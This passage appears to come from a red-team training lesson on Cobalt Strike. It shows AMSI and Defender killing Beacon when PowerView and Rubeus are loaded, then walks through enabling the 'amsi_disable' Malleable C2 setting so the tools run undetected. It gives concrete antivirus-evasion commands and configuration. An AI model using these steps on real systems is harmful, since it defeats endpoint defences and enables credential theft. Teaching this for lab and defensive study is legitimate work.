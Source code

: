 The Beacon payload is not the only place AMSI will snatch you, but also in various post-exploitation commands which AMSI can instrument.  To name a few are `powershell`, `powerpick` and `execute-assembly`.  This occurs because Beacon will spawn new processes to execute these commands, and each process gets its own copy of AMSI.
```
beacon> run hostname
fs

beacon> powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1

beacon> powershell Get-Domain
[-] lost link to parent beacon: 10.10.123.102
```

```
beacon> remote-exec winrm fs Get-MpThreatDetection
PSComputerName                 : fs
ProcessName                    : C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
RemediationTime                : 9/14/2022 5:01:18 PM
Resources                      : {amsi:_\Device\HarddiskVolume1\Windows\System32\WindowsPowerShell\v1.0\powershell.exe}
```
  

In this case, the Beacon payload spawned powershell.exe and attempted to load PowerView.ps1 into it.  This was detected by AMSI and killed.  Defender also goes one step further and kills the process that spawned it (our Beacon), which is why we immediately lose the link to it.

The same will happen if we attempt to execute a .NET assembly that is known to Defender.
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe
[-] Failed to load the assembly w/hr 0x8007000b
[-] lost link to parent beacon: 10.10.123.102

PSComputerName                 : fs
ProcessName                    : C:\Windows\System32\rundll32.exe
RemediationTime                : 9/14/2022 5:18:35 PM
Resources                      : {amsi:_\Device\HarddiskVolume1\Windows\System32\rundll32.exe}
```
  

It would be a bit of a pain to modify and obfuscate every single post-ex tool, so Cobalt Strike introduced a configuration that we can apply in Malleable C2 called `amsi_disable`.  This uses a memory-patching technique which I have [blogged about](https://rastamouse.me/memory-patching-amsi-bypass/) before to disable AMSI in the spawned process prior to injecting the post-ex capability.

SSH into the team server and open the profile you're using in a text editor (for me, that's webbug.profile).
```
attacker@ubuntu ~/cobaltstrike> vim c2-profiles/normal/webbug.profile
```
  

Right above the `http-get` block, add the following:
```
post-ex {
        set amsi_disable "true";
}
```
  

After modifying a profile, it's always a good idea to check it with c2lint to ensure you didn't break anything.
```
attacker@ubuntu ~/cobaltstrike> ./c2lint c2-profiles/normal/webbug.profile
```

  Warnings are ok, but errors are usually fatal.

  

You will need to restart your team server and re-acquire a Beacon on the file server.  This time, Rubeus will execute.
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

   
  v2.1.2 
```

  `amsi_disable` only applies to `powerpick`, `execute-assembly` and `psinject`.  It **does not** apply to the powershell command.

  

However, you'll notice that your Beacon probably still dies shortly thereafter.  This brings us to behavioural detections.